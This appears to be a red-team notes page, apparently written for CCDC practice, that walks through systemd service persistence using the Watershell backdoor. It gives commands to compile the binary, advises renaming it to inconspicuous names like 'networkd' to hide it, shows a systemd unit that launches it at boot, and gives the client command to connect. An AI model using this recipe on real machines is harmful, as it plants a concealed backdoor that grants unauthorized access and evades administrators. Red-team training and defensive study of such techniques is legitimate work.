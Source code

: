 ```yaml
---
description: Systemd Service Persistence using Watershell as an example.
---
```


# Systemd Service Persistence

[Watershell ](https://github.com/RITRedteam/watershell-cpp)is an incredible script that I came across from a fellow red teamer during CCDC Regionals. I highly recommend reading the [original GitHub](https://github.com/wumb0/watershell) to learn more about the tool and why I fell in love with it.&#x20;

General steps for persistence with Watershell:

1. Compile the binary:&#x20;

```bash
g++ main.cpp watershell.cpp -o ${INSERT_BINARY_NAME}
```

2\. Note: You can edit the default port that the binary uses in the main.cpp and watershell.cpp files prior to comilation.

3\. Transfer the binary to the targets system, I recommend naming the binary something inconspicuous such as `networkd` or `ipv6_conf`

4\. Setup a service to execute the binary, the following demonstrates an example configuration:

```bash
[Unit]
Description=persistence

[Service]
Type=simple
ExecStart=/bin/networkd

[Install]
WantedBy=multi-user.target
```

1. Connect to the target using `watershell-cli.py` using the following command:\
   `python3 watershell-cli.py -t [IP] -p [PORT]`

### References

* [Understanding Systemd Service Persistence](https://redcanary.com/blog/attck-t1501-understanding-systemd-service-persistence/)
